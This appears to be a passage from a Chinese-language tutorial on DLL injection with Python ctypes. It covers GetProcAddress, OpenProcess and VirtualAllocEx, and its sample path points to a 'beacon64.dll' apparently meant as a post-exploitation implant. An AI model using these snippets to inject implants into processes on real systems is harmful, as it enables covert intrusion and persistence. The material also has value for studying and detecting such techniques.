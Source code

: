 GetProcAddress 用来从指定的动态链接库（DLL）检索导出的函数或变量的地址。

我们就用此函数从 kernel32.dll 库中获取 LoadLibraryA 函数的内存地址。

函数原型：

```
https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloader
```

```
api-getprocaddress
FARPROC GetProcAddress(
  HMODULE hModule,
  LPCSTR  lpProcName
);
```

 对应参数  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNm0LR8A6BdSLiaobrMYza7EPRpKRRkK51q2rrOBqMicuCyEn95ZXUcn60PV4UWjFYxclK33qCL4o0w/640?wx_fmt=png)

调用成功则返回指定函数的变量地址，失败则返回 Null。  

这里用 python 有很多坑，ctypes 库调用 GetProcAddress 函数时需要指定特定的参数类型，返回特定类型的值，才能得到 LoadLibraryA 所在的内存地址

```
ctypes.windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
ctypes.windll.kernel32.GetModuleHandleW.restype = c_void_p
handle = ctypes.windll.kernel32.GetModuleHandleW("kernel32")

ctypes.windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
ctypes.windll.kernel32.GetProcAddress.restype = c_void_p
LLA = ctypes.windll.kernel32.GetProcAddress(handle, b'LoadLibraryA')
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNm0LR8A6BdSLiaobrMYza7EMyXX1ibmlUs5OdIbehPzZQ9BfnaVwiaOptPlBL8PfRqr336Gc0lEqNPQ/640?wx_fmt=png)

后面几个 API 函数详解见上文《[维持访问 - 代码注入分析](http://mp.weixin.qq.com/s?__biz=MzIwOTMzMzY0Ng==&mid=2247485494&idx=1&sn=44daf6f00b3c1ad0589e6e1987bac04b&chksm=977434d7a003bdc10e6de399cbb9aa029577cb8fcf59e75dd3f109c4807638fdfad091acf81d&scene=21#wechat_redirect)》  

OpenProcess 函数

使用 OpenProcess 打开一个进程，并返回进程对象的句柄。

```
PROCESS_ALL_ACCESS = (0x000F0000 | 0x00100000 | 0xFFF)
h_process = ctypes.windll.kernel32.OpenProcess(PROCESS_ALL_ACCESS,False,pid)
ctypes.windll.kernel32.CloseHandle(h_process)
```

VirtualAllocEx 函数  

在打开的进程内申请一块小内存，这次存放的不是 shellcode，而是 DLL 的绝对路径

```
dll_path = b"C:\\Users\\lcg17\\Desktop\\cs\\beacon64.dll"
```
